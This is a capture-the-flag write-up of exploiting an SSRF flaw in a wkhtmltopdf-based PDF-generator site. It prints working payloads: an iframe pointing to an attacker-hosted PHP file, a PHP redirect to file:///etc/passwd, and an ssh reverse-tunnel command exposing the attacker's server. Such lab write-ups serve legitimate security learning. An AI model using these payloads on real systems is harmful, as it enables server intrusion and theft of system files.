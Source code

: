 # TL;DR

1. Say that input was reaching out to a website and tried to input "localhost", which produced an error
2. Saw the error came from using the wkhtmltopdf application and looked up vulns for it
3. Found a vuln and a POC for it and tried to get a PDF
4. Did not get a PDF and after a few attempts tried to use a command to get a temp domain name for the server to reach out to with a different payload
5. After giving the temp domain in the form I got a PDF back with the flag

# Detailed Writeup

When first getting to the site we this homepage:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/homepage.png)

The site creates PDFs of sites that is given in the form. I tried to spin up a python server and tried to see if the site would reach back. But the site just hanged without any hits from the server

So I tried to put in "http://localhost" and when I did I got this error from the server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/error.png)

wkhtmltopdf, this is interesting as the server says a command failed when it tried to use this application. After this, I did a quick google search for any wkhtmltopdf vulnerabilities and I happen to land on page explaining that wkhtmltopdf has a known SSRF vulnerability. 

After this, I tried to look to see if there were any POC's and I happen to land on exploit-notes.hdks.org which had section dedicated to testing for this vulnerability in wkhtmltopdf:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/explanation.png)

I followed these steps. Creating the malicious php file, starting the php server, and tried to inject the payload into the form:

**Example Payload**
```
<iframe src=http://<Your IP address here>:<Port of server>/test.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

I tried to just injecting and it got an error message but did get a hit on my server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/payload.png)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/server.png)

I thought maybe there was something wrong with the php file that I made as I was getting hits on my server. I tried changing the payload to a more simple version than the one in the website that did not take command arguments:

```
<?php
  header("Location: file:///etc/passwd");
?>
```

I got something different but not a PDF so I thought maybe I need to have a domain name since it google.com and github.com. So I used this command to set up a temporary domain: 

```
ssh -R 80:localhost:8000 nokey@localhost.run
```

I sent the payload again with new domain name copied from the above command and once again I did not get a PDF.

**Payload Used**
```
<iframe src=http://<Temp domain name>:8000/test2.php width=1000px height=1000px></iframe>
```

So I tried to just give just the full url of the temp domain name and I got a PDF with the flag: 

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/flag.png)

I come to later find out from other experiments that the site was blocking input and found that input that was given had to start with "http://" or "https://" or else input would of been blocked.
